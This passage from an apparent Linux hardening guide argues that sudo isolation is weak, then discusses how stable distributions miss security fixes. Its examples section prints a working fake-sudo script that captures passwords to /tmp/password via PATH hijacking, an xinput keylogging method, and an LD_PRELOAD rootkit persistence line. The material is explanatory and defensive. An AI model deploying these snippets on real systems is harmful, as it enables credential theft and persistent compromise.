 [5\. Examples](#examples)
-------------------------

The example below sets up a fake sudo prompt to intercept the sudo password:

    cat <<\EOF > /tmp/sudo
    #!/bin/bash
    if [[ "${@}" = "" ]]; then
      /usr/bin/sudo
    else
      read -s -r -p "[sudo] password for ${USER}: " password
      echo "${password}" > /tmp/password
      echo "${password}" | /usr/bin/sudo -S ${@}
    fi
    EOF
    chmod +x /tmp/sudo
    export PATH="/tmp:${PATH}"

Executing the full path to the sudo executable will not help either, as an attacker can fake that with a shell function:

    function /bin/sudo { ... }
    function /usr/bin/sudo { ... }

Alternatively, an attacker could log keystrokes via X11:

    xinput list # Finds your keyboard ID.
    xinput test id # Replace "id" with the ID from the above command.

Now the attacker can simply use `modprobe` to escalate into kernel mode.  
  
An attacker could also trivially setup a persistent, session-wide rootkit via `LD_PRELOAD` or similar variables:

    echo "export LD_PRELOAD=\"/path/to/malicious_library\"" >> ~/.bashrc

This technique is quite common and is used in the majority of user space rootkits. A few examples are [azazel](https://github.com/chokepoint/azazel), [Jynx2](https://github.com/chokepoint/Jynx2) and [HiddenWasp](https://www.intezer.com/blog/linux/hiddenwasp-malware-targeting-linux-systems/).  
  
Those listed above are merely a few examples and do not even require exploiting bugs.

[6\. Distribution-specific Issues](#distro-specific-issues)
-----------------------------------------------------------

### [6.1 Stable Release Models](#stable-release-models)

A myriad of common Linux distributions, including Debian, Ubuntu, RHEL/CentOS, among numerous others use what's known as a "stable" software release model. This involves freezing packages for a very long time and only ever backporting security fixes that have received a [CVE](https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures). However, this approach misses the vast majority of security fixes. [Most security fixes do not receive CVEs](https://arxiv.org/abs/2105.14565) because either the developer simply doesn’t care or because it’s not obvious whether or not a bug is exploitable at first.  
  
Distribution maintainers cannot analyse every single commit perfectly and backport every security fix, so they have to rely on CVEs, which people do not use properly. For example, the Linux kernel [is](https://github.com/gregkh/presentation-cve-is-dead/blob/master/cve-linux-kernel.pdf) [particularly](https://grsecurity.net/reports_of_cves_death_greatly_exaggerated) [bad](https://blog.frizn.fr/linux-kernel/cve-2020-14381) [at this](https://seclists.org/oss-sec/2019/q2/165). Even when there is a CVE assigned to an issue, sometimes fixes still aren't backported, such as in the Debian Chromium package, which is [still affected by many severe and public vulnerabilities, some of which are even being exploited in the wild](https://forums.whonix.org/t/chromium-browser-for-kicksecure-discussions-not-whonix/10388/49).  
  